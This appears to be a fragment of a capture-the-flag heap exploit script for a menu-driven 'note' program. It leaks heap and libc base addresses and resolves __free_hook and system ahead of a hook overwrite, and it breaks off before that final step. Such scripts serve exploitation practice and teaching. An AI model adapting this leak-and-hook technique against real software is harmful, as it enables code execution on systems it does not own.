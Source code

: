 ```plain
edit_idx = 4

def duan():
    gdb.attach(p)
    pause()

def choice(cho):
    sla('>> ',cho)

def add(idx,size,content):
    choice(add_idx)
    sla('iput note size:\n',size)
    sla('Which one?\n',idx)
    sla('content:\n',content)

def delete(idx):
    choice(delete_idx)
    sla('which note do you want delete?\n',idx)

def show(idx):
    choice(show_idx)
    sla('which one?\n',idx)

def edit(idx,content):
    choice(edit_idx)
    sla('which one?\n',idx)
    sla('content:\n',content)


add(0,0xf8,'aaaa')
add(1,0xf8,'aaaa')
delete(1)
delete(0)

add(1,0xf8,'')
show(1)

r(9)
heap_base=u64(p.recv(6).ljust(8,'\x00'))-0x30a
leak('heap_base ',heap_base)
delete(1)


for i in range(11):
    add(i,0xf8,'')

for i in range(7):
    delete(i)

delete(9)
add(11,0x10,'')

show(11)
r(9)
libc_base=u64(p.recv(6).ljust(8,'\x00'))-0x1ecc0a
leak('libc_base ',libc_base)

free_hook = libc_base + libc.sym['__free_hook']
system = libc_base + libc.sym['system'] 

delete(11)
add(12,0xe0,'')

```